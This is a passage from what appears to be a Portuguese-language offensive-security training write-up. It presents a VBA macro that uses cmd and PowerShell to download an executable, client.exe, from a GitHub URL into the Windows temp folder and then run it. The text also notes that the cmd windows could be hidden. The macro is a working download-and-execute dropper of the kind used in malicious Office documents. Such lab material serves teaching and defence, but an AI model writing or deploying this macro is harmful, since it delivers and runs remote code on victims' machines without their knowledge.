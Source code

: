 Esta task também não tem segredo, uma vez que conseguimos executar comandos no `cmd` e já fizemos um script em `PowerShell` anteriormente para realizar a mesma função, só precisamos juntar os dois.

```visualbasic
Sub Download_exec()
pid = Shell("cmd.exe /c PowerShell -c (New-Object System.Net.WebClient).DownloadFile('https://github.com/h41stur/dojo/blob/main/semana_04/client.exe?raw=true','C:\Windows\Temp\client.exe')", 1)
pid2 = Shell("cmd.exe /c PowerShell -c Start-Process ('C:\Windows\Temp\client.exe')", 1)
End Sub
```

Ao executar a macro, temos uma rápida abertura de duas telas do cmd (que também podem ser programadas para rodar em bacvkground).

<center><img src="/std/dojo/dojo-79.png"></center>

Ao checarmos o diretório temporário do Windows, podemos ver que o arquivo boi baixado.

<center><img src="/std/dojo/dojo-80.png"></center>
